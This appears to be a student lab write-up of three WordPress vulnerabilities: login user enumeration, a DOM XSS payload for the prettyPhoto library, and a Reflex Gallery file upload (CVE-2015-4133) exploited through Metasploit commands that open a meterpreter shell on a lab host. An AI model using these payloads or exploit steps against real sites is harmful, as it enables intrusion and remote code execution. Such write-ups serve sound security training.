 1.(Required) User Enumeration

Summary: Different messages are shown for valid usernames with incorrect password and invalid usernames with incorrect passwords which gives an attacker hints.

•Vulnerability type: User Enumeration

•Tested in version: 4.2

•Fixed in version: N/A

![Animation2](https://user-images.githubusercontent.com/109797939/198848389-e1517d2b-3ae2-4c7d-ad01-898a491cebca.gif)

Steps to recreate:
•Type in "admin" as username with incorrect password and it shows “ERROR: The password you entered for the username admin is incorrect”.

•Type in "John" as username with incorrect password and it shows “ERROR: Invalid username”.

Affected source code:

https://core.trac.wordpress.org/browser/tags/4.2/src/wp-login.php



2. Multiple Plugins - jQuery prettyPhoto DOM Cross-Site Scripting (XSS)

Summary: The jQuery prettyPhoto library bundled with many plugins was found to be vulnerable to DOM Cross-Site Scripting (XSS).

•Vulnerability type: cross site scripting (xss)

•Tested in version: 3.1.3

•Fixed in version: 3.1.5

•CWE: CWE-79

![Animation](https://user-images.githubusercontent.com/109797939/198848630-e006b094-fdfc-40a7-a21f-81a959d6accb.gif)

Steps to recreate:

•	Add the following script to the end of the website link “#prettyPhoto[gallery]/1,<a onclick="alert(/You have been hacked/);">/”



3. Reflex Gallery <= 3.1.3 - Arbitrary File Upload

Summary: 

WordPress Reflex Gallery plugin version 3.1.3 suffers from a remote shell upload vulnerability.

Vulnerability type: upload

Tested in version: 3.1.3

Fixed in: 3.1.4

CVE: CVE-2015-4133

Metasploit: exploit/unix/webapp/wp_reflexgallery_file_upload

![Animation3](https://user-images.githubusercontent.com/109797939/198849260-4b8c761a-f718-481b-8a9a-98cec3dcc34e.gif)

Steps to recreate:

•	Msfconsole

•	Search reflexgallery

•	Use 0

•	Options

•	set RHOST 192.168.33.10

•	set payload php/meterpreter/bind_tcp_ipv6_uuid

•	run

